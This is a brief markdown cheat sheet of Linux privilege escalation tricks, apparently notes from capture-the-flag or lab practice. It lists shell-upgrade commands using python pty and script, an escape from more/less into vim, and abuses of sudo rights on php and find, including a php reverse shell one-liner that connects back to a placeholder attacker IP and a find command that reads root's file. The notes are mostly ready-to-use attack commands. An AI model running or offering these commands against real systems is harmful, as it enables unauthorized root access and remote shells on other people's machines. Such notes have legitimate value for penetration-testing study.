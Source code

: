 # privilege escalation methods

## improving shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -c bash
```

## more|less > vi

if something is using more/less as an elevated user make the window smaller so it activates more or less
press `v` drops us in vim
using we can get a shell
```
:#!/bin/bash
```

## sudo -l: shows php

sudo /usr/bin/php -r "system('whoami');"

sudo /usr/bin/php -r '$sock=fsockopen("{IP}",1234);exec("/bin/sh <&3 >&3 2>&3");'

## sudo -l: shows find

sudo /usr/bin/find /root/root.txt -exec cat {} \;
